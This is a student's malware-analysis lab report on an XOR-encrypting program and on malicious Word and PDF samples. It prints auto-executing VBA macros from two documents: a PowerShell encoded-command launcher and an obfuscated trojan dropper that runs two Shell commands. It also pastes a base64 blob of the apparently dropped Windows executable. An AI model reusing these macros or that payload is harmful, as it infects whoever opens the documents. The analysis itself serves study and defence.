

# Task 1

**1. What is the key used for encryption?***

Encryption key: ```c0b869c3dd78b08b```

**2. What does function A and function B do; what does the program do on general level?**

_Function\_A:_

- ```param_1``` is the input of the ```Function_A```. It is a basic_string.
- Also it creates vatiables such as, ```local_48```, ```local_20```, ```local_21```, ```uVarl``` and ```in_RSI```.
- There is a while loop in the program.  
- The program has assumed that the input as hexadecimal.
- The program considers 2 charactors from the input for a time since the input is hexadecimal.
- The hexadecimal value is converted to decimal and appended to the ```param_1``` variable.
- ```param_1``` value is returned.

_Funtion\_B_

- The inputs ```param_1```, ```param_2```, and ```param_3``` are taken as basic_string parameters.
- There is a while loop inside the function.
- The loop runs for the length of the string. 
- Inside the while loop, the strings are considered as per the index and stored in the other string.
- An XOR function in run between the `param_1` and `param_2` since there is the XOR function in the machine code. 
- The [index\] charactor of ```param_1``` and ```param_2```are processed and stored in ```param_3```.
- The ```param_2``` is decimal output we get from the _Function\_A.
- The loop continues. 

_main_

- The main funtion is the primary funtion.
- The input is taken from the "input.txt" and output is "encrypted_output.txt".
- The input is read to the ```local_4d8``` file and the ```local_4d8```, ```local_a8``` ahich is the return value of _Funtion\_A_ is processed through _Funtion\_B_ and the output is produced as ```local_4f8```.
- The output is written to the output file.
- If any errors are occured error messege is printed.
- The variables are cleaned up at the end of the function.
- Boolean value is returned for bVar.

**3. What encryption method has been used?**

The encryption method is _XOR_. 

**4. How did you reverse the ciphertext (CyberChef or coding?)Alternatively, provide the program used for reversing the file.**

The CyberChef is used. The file is directly uploaded to the portal and **_XOR_** operation is used. 


**5. What is the text inside the original input?**

Decrypted text: `R4vih3von3n`

# Task 2

## Task 2.1

SHA256 hash files of the files:
```terminal
❯ ls               
example.pdf  finally.pdf  uncompatible.doc  videos.doc

~/Documents/SoftwareHardwareSec/4.Malware_analysis/misc/malware/maldocs_task1 master*
❯ sha256sum example.pdf                                                          
0682b87328743bda897863f1e9bc7d902ec400a4c0439364190350d15293a068  example.pdf

~/Documents/SoftwareHardwareSec/4.Malware_analysis/misc/malware/maldocs_task1 master*
❯ sha256sum finally.pdf
37a5d349a4ffcdf9aca39a817f09a9ff1d64eee520ff58906a8ed1d588082c47  finally.pdf

~/Documents/SoftwareHardwareSec/4.Malware_analysis/misc/malware/maldocs_task1 master*
❯ sha256sum uncompatible.doc           
b7e08d2fb30a2e3ee85c539f31d97d720991791e272616ae79cf9f4697d9cafd  uncompatible.doc

~/Documents/SoftwareHardwareSec/4.Malware_analysis/misc/malware/maldocs_task1 master*
❯ sha256sum videos.doc                
17ac158e50bb40c85746d4991ea9d853d7788f6436b02f1ba785fe9a13a9859f  videos.doc
```

| File | ClamAV | VirusTotal | Yara | 
|---- |---- |---- |---- |
|example.pdf | |  |  |
|finally.pdf | |  |  |
|uncompatible.doc | |  |  |
|videos.doc | |  |  |

## Task 2.4

| File | pdfid | pdf-parser | 
|---- |---- |---- |
|example.pdf | |  | 
|finally.pdf | |  |

| File | oletools | oledump | 
|---- |---- |---- |
|uncompatible.doc | |  |
|videos.doc | |  |

**Which files might seem to do something abnormal?** 

The ```olevba``` command gives the output as `uncompatible.doc` file is suscpiciuos. 

`olevba` output:
```terminal
venv ❯ olevba uncompatible.doc
olevba 0.60.2dev1 on Python 3.11.5 - http://decalage.info/python/oletools
===============================================================================
FILE: uncompatible.doc
Type: OLE
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls 
in file: uncompatible.doc - OLE stream: 'Macros/VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO NewMacros.bas 
in file: uncompatible.doc - OLE stream: 'Macros/VBA/NewMacros'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Sub AutoOpen()
'
' AutoOpen Macro
'
'
secret = "echo 'Hahahaa! Your machine is under my control!'; echo 'Here, take a calc.'; & calc.exe;"
pwsh = CStr(Environ("AppData") & "\pwned.ps1")

Open pwsh For Output As #1
Print #1, secret
Close #1
base64_encoded = "QwA6AFwAVQBzAGUAcgBzAFwAbgBpAGsAbABhAFwAQQBwAHAARABhAHQAYQBcAFIAbwBhAG0AaQBuAGcAXABwAHcAbgBlAGQALgBwAHMAMQA="
Shell ("powershell -NoExit -EncodedCommand " & base64_encoded)
End Sub
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |AutoOpen            |Runs when the Word document is opened        |
|Suspicious|Environ             |May read system environment variables        |
|Suspicious|Open                |May open a file                              |
|Suspicious|Output              |May write to a file (if combined with Open)  |
|Suspicious|Print #             |May write to a file (if combined with Open)  |
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|powershell          |May run PowerShell commands                  |
|Suspicious|NoExit              |May run PowerShell commands                  |
|Suspicious|EncodedCommand      |May run PowerShell commands                  |
|Suspicious|Base64 Strings      |Base64-encoded strings were detected, may be |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|IOC       |calc.exe            |Executable file name                         |
|IOC       |pwned.ps1           |Executable file name                         |
+----------+--------------------+---------------------------------------------+
```
The key words that indicates the file is malcious are shown in the key words column in above report. 

**What do they attempt to do on a general level?** 

There are 2 VBA macros in the file.
1. VBA MACRO ThisDocument.cls
2. VBA MACRO NewMacros.bas
The first file seems to be empty. The second file contains a code. It uses the Shell function to execute a command with `base64_encoded` as input. The `base64_encoded` contains an encrypted text and it defines a path to a file as `C:\Users\nikal\AppData\Roaming\pwned.ps1`.



The file `pwned.ps1` is created at the begining of the code with an echo funtion and to open the calculator application. Once the shell script is open, a script is going to run and a text going to be printed as 'Hahahaa! Your machine is under my control! Here, take a calc.' and launch the calculator. 

**Are they executing some code?**

Yes, the code is,

```vba
secret = "echo 'Hahahaa! Your machine is under my control!'; echo 'Here, take a calc.'; & calc.exe;"
pwsh = CStr(Environ("AppData") & "\pwned.ps1")

Open pwsh For Output As #1
Print #1, secret
Close #1
base64_encoded = "QwA6AFwAVQBzAGUAcgBzAFwAbgBpAGsAbABhAFwAQQBwAHAARABhAHQAYQBcAFIAbwBhAG0AaQBuAGcAXABwAHcAbgBlAGQALgBwAHMAMQA="
Shell ("powershell -NoExit -EncodedCommand " & base64_encoded)
```

# Task 3

The _eml\_parser_ provides the output to a folder called `eml-docs`. The zip password is given as "OneMillion1545" in the eml file. The `ClaimThePrice.doc` is extracted from the zip file. 

Below is the VirusTotal web UI result for the `ClaimThePrice.doc`.


The output indicates that the file has been associated with the threat label **"trojan"**.

The `oletool` provides the result as, 


```terminal
olevba 0.60.1 on Python 3.11.5 - http://decalage.info/python/oletools
===============================================================================
FILE: ClaimThePrice.doc
Type: OLE
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls 
in file: ClaimThePrice.doc - OLE stream: 'Macros/VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Private Sub Document_Open()
If ActiveDocument.Variables("zSdVtE").Value <> "winter" Then
mOBUoprwOr
End If
End Sub

-------------------------------------------------------------------------------
VBA MACRO SsISDXG.bas 
in file: ClaimThePrice.doc - OLE stream: 'Macros/VBA/SsISDXG'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Private Function gjfYMikkAB(yBDgeveOCX As Variant, NbLNTBCNNM As Integer)
Dim LiRUWYHlUd, lQWcpGdPMU As String, foxTPXoHhm, gbENYmalvj
lQWcpGdPMU = "lNnNvluhiuVumq5qcrKMpDwul9w3OGOgfZNG7HfGRPumvi7mr5aCzAhPTSFzfQUOUwhTrPvda3KnW3cqmvCFBtTiIIHTtl7SgSaWYGiWtnQqnjvkKOOmch7PtSysCzEQxgGDpMMAkPBgvPcmyjbEKXT5oh5qynrPDoWdUUu47eIqyLvZ8Iyh22zEYHeQ5sIBRm4y818rTQnOyjv2vQ5LvGC5Lq1LtcGfF0rdxU0pupqaS5y53B8114yS2g7Wm2zrxsl8KA6axRtCnVLHVnlRklXlQlBSgdJ78GYxNBlSPCiOgN2noVNSOG4851uzJpFYyqtIo5UMiaMvgYj9dK4QfHRgBKUuobSvCYhTurOQyw8ljnTUIu7KItsggyQsPkf7el9Q9k9Rdg5fiqFNssiSje10dBNmUQkYCMbhVjfSp1IPz8kvSMpTjMvRhqA1aNLDqtQq1KgWZBEFea2frsOmp3P0WVz5610eh1Ykyn1He4eHrxw04UD1b6L623Zj97x66Gug2Ep2f9HCefW9lyRMaxwydT09aFiEZOUZGhBozRGB5Oj3yojV59FrFjwj7AdhJFXhEsDGOXZ9phlEbaE6EjvZ9KUyvpva6xFlP1kv631voY0iwGPQud9azxuIqMmRJpY1L4MxglqHYR32fulzvvTkukAHVx5vAAv71Qn6u5eaGVY1Vxt05kmYRIRLfJa4gwrj0HLPWaS7jNkq8xAk1zzfKT4I5UQeWgaAoC9ZTlcuzIl1GUPQ4ZhrdWJTcPXd241vUAQXqz9aJzgEf4oyFAORPt7BpO1t8rvcxFwW7MJtFy8DqkcK2Swv1godidj8JjFKxnXcaDfuZghqTbHKNUDZmla0KemNVnIXKPhdVWPquQU9Z4PMxtbB4y29zivFB6yzvzS11RomVTOUjNrsUoOnY5iwI1RfDh2B5t1NY8fAgQJtR3hfZjaJFCqqj19so1XT6ipjfF"
LiRUWYHlUd = ""
foxTPXoHhm = 1
While foxTPXoHhm < UBound(yBDgeveOCX) + 2
gbENYmalvj = foxTPXoHhm Mod Len(lQWcpGdPMU): If gbENYmalvj = 0 Then gbENYmalvj = Len(lQWcpGdPMU)
LiRUWYHlUd = LiRUWYHlUd + Chr(Asc(Mid(lQWcpGdPMU, gbENYmalvj + NbLNTBCNNM, 1)) Xor CInt(yBDgeveOCX(foxTPXoHhm - 1)))
foxTPXoHhm = foxTPXoHhm + 1
Wend
gjfYMikkAB = LiRUWYHlUd
End Function
Sub mOBUoprwOr()
Dim p As DocumentProperty
For Each p In ActiveDocument.BuiltInDocumentProperties
If p.Name = gjfYMikkAB(Array(43, 6, 24, 59, 16, 3, 5, 70), 7) Then
wayOfSanta = CStr(Environ(gjfYMikkAB(Array(45, 62, 30, 10, 23, 24, 20), 0)) & gjfYMikkAB(Array(18, 56, 54, 20, 17, 127, 5, 73, 63), 445))
Dim fso As Object
Set fso = CreateObject(gjfYMikkAB(Array(34, 0, 0, 34, 61, 4, 45, 25, 18, 66, 127, 30, 95, 42, 20, 54, 20, 18, 63, 35, 8, _
85, 34, 3, 36, 38), 15))
Dim oFile As Object
Set oFile = fso.CreateTextFile(wayOfSanta)
oFile.WriteLine p.Value
oFile.Close
End If
Next
christmas = gjfYMikkAB(Array(60, 30, 21, 108, 3, 47, 9, 4, 111, 92, 72, 36, 61, 4, 4, 86, 17, 92, 59, 20, 3, _
65, 83, 66, 24, 62, 45, 95, 47, 2, 11, 1, 95, 37, 0, 90, 17, 21, 72, 66, 48, _
85, 64, 19, 43, 93, 6, 83, 62, 102, 83, 71, 50, 66, 30, 118, 8, 70, 90, 46, 22, _
6, 70, 44, 31, 92, 34, 88, 60, 34, 66, 79, 119, 18, 76, 94, 14, 57, 19, 29, 18, _
54, 22, 58, 81, 84, 4, 40, 29, 32, 40, 97, 48, 34, 34, 79, 110, 79, 33, 17, 40, _
44, 67, 42, 24, 71, 36, 85, 80, 16, 71, 86, 43, 48, 39, 25, 18, 92, 3, 18, 16, _
26, 35, 40, 63, 64, 30, 58, 11, 105, 9, 49, 54, 92, 45, 82, 86, 23, 7, 0, 33, _
119, 41, 6, 34, 63, 65, 63, 125, 34, 51, 30, 0, 8, 68, 23, 40, 1, 53, 95, 31, _
43, 12, 9, 118, 19, 27, 31, 95, 5, 19, 34, 34, 1, 20, 16, 81, 73, 93, 57, 5, _
57, 29, 36, 14, 51, 62, 25, 54, 95, 8, 85, 57, 25, 64, 69, 81, 99, 121, 117, 111, _
70, 20, 16, 9, 84, 2, 14, 32, 76, 92, 66, 104), 454)
claus = CStr(Environ(gjfYMikkAB(Array(45, 62, 30, 10, 23, 24, 20), 0)) & gjfYMikkAB(Array(15, 37, 17, 34, 15, 18, 16, 39, 6, 95, 49, 66, 80), 432))
Open claus For Output As #1
Print #1, christmas
Close #1
ar209r3ndf = gjfYMikkAB(Array(80, 26, 17, 37, 8, 114, 8, 63, 22, 120, 34, 51, 15, 55, 6, 19, 3, 22, 51, 43, 123, _
8, 15, 63, 53, 15, 80, 17, 17, 18, 38, 99, 24, 37, 56, 21, 24, 47, 22, 69, 47, _
14, 55, 41, 47, 14, 11, 2, 34, 39, 80, 18, 60, 18, 62, 38, 2, 30, 4, 19, 63, _
38, 0, 124, 49, 47, 12, 3, 0, 17, 5, 50, 55, 51, 4, 47, 40, 43, 37, 0, 10, _
60, 21, 119, 0, 41, 118, 22, 56, 36, 5, 18, 6, 46, 31, 37, 20, 54, 52, 118, 68, _
36, 14, 26, 56, 21, 1, 24, 80, 8, 49, 57, 115, 83, 43, 7, 47, 9, 34, 101, 116, _
33, 8, 0, 58, 44, 124, 40, 121, 104, 105, 51, 58, 16, 45, 36, 56, 35, 55, 115, 4, _
16, 118, 13, 55, 13, 52, 119, 47, 48, 118, 43, 53, 58, 22, 36, 116, 113, 53, 49, 57, _
13, 71, 50, 24, 49, 57, 52, 18, 87, 30, 116, 70, 3, 112, 112, 112, 87, 14, 18, 74, _
38, 116, 52, 44, 121, 43, 51, 17, 50, 47, 121, 10, 13, 103, 35, 62, 19, 60, 36, 47, _
12, 29, 10, 60, 47, 36, 7, 42, 8, 25, 46, 33, 45, 5, 107, 38, 6, 45, 117, 105, _
6, 30, 64, 15, 32, 45, 17, 32, 2, 46, 2, 38, 43, 99, 47, 8, 23, 11, 26, 14, _
34, 101, 122, 66, 112, 50, 63, 11, 19, 49, 27, 3, 48, 55, 8, 46, 121, 4, 15, 38, _
32, 10, 78, 38, 12, 43, 123, 29, 10, 115, 105, 39, 18, 53, 37, 50, 10, 18, 2, 46, _
56, 2, 55, 36, 24, 43, 100, 52, 36, 56, 19, 9, 54, 127, 88, 43, 52, 21, 23, 63, _
52, 127, 40, 8, 33, 4, 37, 87, 56, 25, 24, 17, 9, 39, 117, 9, 45, 122, 16, 120, _
56, 120, 16, 20, 38, 114, 55, 40, 43, 7, 12, 31, 50, 46, 103, 43, 44, 112, 113, 16, _
3, 11, 89, 20, 51, 28, 27, 5, 12, 42, 15, 23, 11, 55, 17, 64, 112, 8, 63, 59, _
26), 68)
odij32098h = gjfYMikkAB(Array(106, 28, 31, 116, 31, 0, 2, 39, 118, 122, 16, 44, 84, 52, 112, 48, 32, 37, 49, 27, 3, _
23, 63, 31, 113, 86, 12, 47, 47, 19, 14, 102, 13, 4, 27, 35, 88, 38, 48, 70, 43, _
84, 9, 14, 52, 22, 37, 60, 118, 37, 41, 41, 57, 121, 63, 20, 42, 85, 59, 56, 33, _
10, 19, 12, 8, 87, 20, 19, 14, 22, 32, 52, 0, 12, 36, 123, 11, 21, 43, 38, 52, _
30, 8, 46, 94, 6, 22, 55, 16, 126, 45, 42, 48, 37, 31, 11, 21, 0, 17, 26, 23, _
115, 115, 90, 55, 12, 54, 19, 48, 48, 50, 104, 32, 43, 43, 37, 51, 39, 115, 91, 56, _
20, 0, 13, 58, 17, 60, 102, 3, 41, 30, 112, 26, 121, 49, 29, 34, 49, 7, 54, 37, _
118, 14, 11, 53, 12, 14, 122, 39, 48, 35, 50, 10, 81, 52, 53, 26, 112, 32, 58, 37, _
61, 19, 40, 65, 11, 45, 114, 10, 33, 63, 26, 23, 32, 3, 51, 52, 56, 0, 42, 65, _
21, 37, 29, 10, 45, 50, 5, 47, 44, 43, 52, 113, 46, 36, 47, 34, 23, 45, 42, 25, _
0, 1, 41, 13, 23, 22, 63, 48, 87), 667)
fji02093 = gjfYMikkAB(Array(32, 26, 26, 19, 27, 68, 5, 23, 89, 13, 99, 87, 4, 6, 51, 59, 55, 35, 30, 37, 62, _
56, 34, 52, 25, 12, 116), 41) & ar209r3ndf
fohjoi1nd = gjfYMikkAB(Array(73, 53, 67, 53, 63, 11, 28, 7, 46, 88, 89, 31, 124, 2, 12, 21, 51, 54, 95, 22, 20, _
38, 21, 63, 88, 82, 43, 79, 47, 47, 36, 46, 38, 25, 110, 95, 61, 58, 63, 61, 1, _
63, 92, 5, 18, 105, 28, 5, 15, 42, 12, 93, 53, 102, 0, 72, 34, 60, 24, 46, 40, _
3, 53, 47, 26, 114, 30, 38, 9, 31, 18, 8, 62, 102, 110, 52, 31, 9, 94, 93, 22, _
11, 114, 55, 57, 91, 8, 30, 14, 70), 879) & odij32098h
Shell (fji02093)
Shell (fohjoi1nd)
End Sub


+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Document_Open       |Runs when the Word or Publisher document is  |
|          |                    |opened                                       |
|Suspicious|Environ             |May read system environment variables        |
|Suspicious|Open                |May open a file                              |
|Suspicious|Output              |May write to a file (if combined with Open)  |
|Suspicious|Print #             |May write to a file (if combined with Open)  |
|Suspicious|CreateTextFile      |May create a text file                       |
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|CreateObject        |May create an OLE object                     |
|Suspicious|Chr                 |May attempt to obfuscate specific strings    |
|          |                    |(use option --deobf to deobfuscate)          |
|Suspicious|Xor                 |May attempt to obfuscate specific strings    |
|          |                    |(use option --deobf to deobfuscate)          |
|Suspicious|.Variables          |May use Word Document Variables to store and |
|          |                    |hide data                                    |
+----------+--------------------+---------------------------------------------+
```

The `oledump` provides below result. 


The `yara` tool provides the results as:


There are two macros in the document. As per the macro code which can be seen in oletool output, the keyword `Document_Open` implies that the program executes once the document is opened. 

The vipermonkey terminal result is as follows. The `.json` file is attached in `misc` folder. 


**What shell commands macro was executing?**

```terminal
Shell (fji02093)
Shell (fohjoi1nd)
```

**Could you briefly describe the idea of carrying the malware and commands?** 

The idea of carrying a malware can be taken into account with obvious observations in the file. The VBA code is difficult to analyse since the data is obfuscated with encryped data.  heavily obfuscated, with string variables storing encrypted or encoded data. This obfuscation is an attempt to make the code difficult to analyze and detect. The results of the tools such as `oledump` and `oletools` implies thst the file have macros. The macro uses environment variable with the `Environ` function. The FSO (File System Object) created files in the host's system. Macro runs `Shell` command twice in the provided malcious program and the commands are in encrypted strings. And also there's an `XOR` function called in the VBA.

**Can we acquire this dropped executable from the document file?**

The executable strings are given as one of the 10 IOCs of the `vipermonkey` output. The strings are mentioned below.
```terminal
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WgkGACAFWgkGAAkGUAAOAEAIIAgGAE4JJwAOAOMFAAcOAOIHAAcOAEoI6gcGAD0FUAAGADoGuwgOAIkHAAcGALoFRAUGAEYCTQcGAD4EuwgGAGwIRAUGANwDRAUGAFYGRAUGAP0IRAUGAHMBRAUGAFQIRAWnAEgGAAAGAH4ERAUGAJ8JJwAOAJMBAAcGAMQFRAUGAH8BUAAGACUBUAAGALcEUAAGAGAIHQQGAIcAHQQGAK4FRAUGAEsFWgkGAEsBWgkGAC4BWgkGADoBWgkGABYGUAAOAF0GIAgOABACIAgOABMJYgEOAMcEYgEOAJoFIAgOAIYF2wAOALEBAAcOABIF6gcOAIYGAAcGAMUGUAAAAAAARwAAAAAAAQABAAAAEACfBzcIQQABAAEAAwEQAAEAAABBAAIADQARALgG0gEGAKUE1gEGALgA2QFQIAAAAACRAG8F3QEBAPQgAAAAAJYA6QgrAAEANCEAAAAAkQCRCeEBAgCQIQAAAACRAJ4ArgACADgiAAAAAJEArQDmAQMAbCIAAAAAkQATB+0BBQBsIwAAAACRAI4AKwAIAPAjAAAAAJEAgQn3AQkAZCQAAAAAkQD0Bd0BCgD8JQAAAACRAHEG/AEKAFQmAAAAAJEAqAfdAQwAqCYAAAAAhhjqBgYADACoJgAAAACGGOoGBgAMALAmAAAAAIMAFgAGAAwAAAABAOUIAAABAKUEAAABALgAAAACAKUEAAABAMcIAAACAFYJAAADAGUAAAABAAMFAAABALAAAAABAMkHAAACAAgCCQDqBgEAEQDqBgYAGQDqBgoAKQDqBhAAMQDqBhAAOQDqBhAAQQDqBhAASQDqBhAAUQDqBhAAWQDqBhAAYQDqBhUAaQDqBhAAcQDqBhAAeQDqBhAAEQHqBgYAGQFWASUAIQFhBCsAGQF7BDEAMQF3CTcAkQA5AkQAQQExAgYASQGuBEkAWQESCFAAWQG8BF0AWQGFBGEAIQHaA2cAYQGfBnQA0QBDCXgA0QDhA38AgQByBIQAmQDqBogAmQD7CI4A4QDYB5sA4QCEAaAAaQHEAYQAWQG2B6YAeQELCK4AoQDqBrMAeQF8BysA8QBAArsA8QAxAgYA0QA2CcMAiQHeAckA0QDqA84A4QBmCNQAkQHqBtoAmQHqBuAAmQELARUAmQFmCAYAoQHqBhAAqQDqBgYAqQEuCYgAqQFhAIgAqQEcAfUAqQEuBPwAqQEmCY4AqQFaAI4AqQHwBgMBuQDqBgwBwQDqBhcByQH6AIQAyQDqBgYA0QHzAyQB0QHZBCkB0QHuBC8B4QHqBjYByQADCT0ByQC9B0QB+QHAAEoBGQE+ACUAyQA6BFAByQBxAFcB2QDqBgYA2QDSCBUA2QDGAxUA2QDRARAA2QChAXMB2QD9BxAA4QBmCHoB4QArCAYA6QDqBoEB6QAtBYcBiQDqBhcB+QDqBgYA4QDqBgYA4QDVBY0B2QCgCBUA2QCGCBUA2QDQBhUAEQLqBtoA4QDEAJIB4QBmCJkB4QDqAQYAyQH1AYQA+QAEAZ0B4QB0CKMBGQL+AagB+QC8BF0A+QAJBK0BAQFoAIQAWQGoCa4AGQKfBAYAWQESCL0B2QCPBBUAgQDqBgYALgALAAQCLgATAA0CLgAbACwCLgAjADUCLgArAE4CLgAzAE4CLgA7AFQCLgBDAGICLgBLAFQCLgBTAE4CLgBbAE4CLgBjAHACLgBrAJoCLgBzAKcCYwB7AO8CGgBWAG0AkwDnAB0BXQFiAbQBuQHEAQSAA